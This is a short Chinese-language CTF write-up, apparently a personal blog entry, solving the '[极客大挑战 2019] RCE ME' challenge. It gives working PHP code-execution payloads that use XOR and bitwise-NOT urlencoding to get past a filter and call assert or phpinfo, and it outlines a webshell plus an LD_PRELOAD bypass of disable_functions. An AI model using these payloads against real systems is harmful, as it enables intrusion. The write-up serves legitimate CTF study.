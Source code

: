 # buu摸鱼日记（23）

## [极客大挑战 2019]RCE ME

这个题目在RCE方面是比较有趣的了

即使过了一年，感觉这个题目还是有难度的

这题有几个方法

法1亦或绕过：

```php
?code=$_="`{{{"^"?<>/";${$_}[_](${$_}[__]);&_=assert&__=执行的命令

$_ = _GET
中间那个就构造了
${_GET}['assert'](${_GET}[命令]);
达到了一句话的效果
(感觉这payload...挺复杂的？)
    
后来看到个简单的（正常）
${%ff%ff%ff%ff^%a0%b8%ba%ab}{%ff}();&%ff=phpinfo
就是${_GET}{phpinfo}();
```

法2：

```php
?code=(~%8F%97%8F%96%91%99%90)();
```

取反urlencode一把梭哈

```php
php -r "echo urlencode(~'phpinfo');"
%8F%97%8F%96%91%99%90⏎ 
```

弄了webshell以后发现啥权限都没有，属实屑webshell

/tmp可上传，然后[利用环境变量LD_PRELOAD来绕过php disable_function执行系统命令](https://wooyun.js.org/drops/利用环境变量LD_PRELOAD来绕过php disable_function执行系统命令.html)

就可以执行readflag，保存到tmp里

https://evoa.me/archives/16/ EVOA师傅的官方wp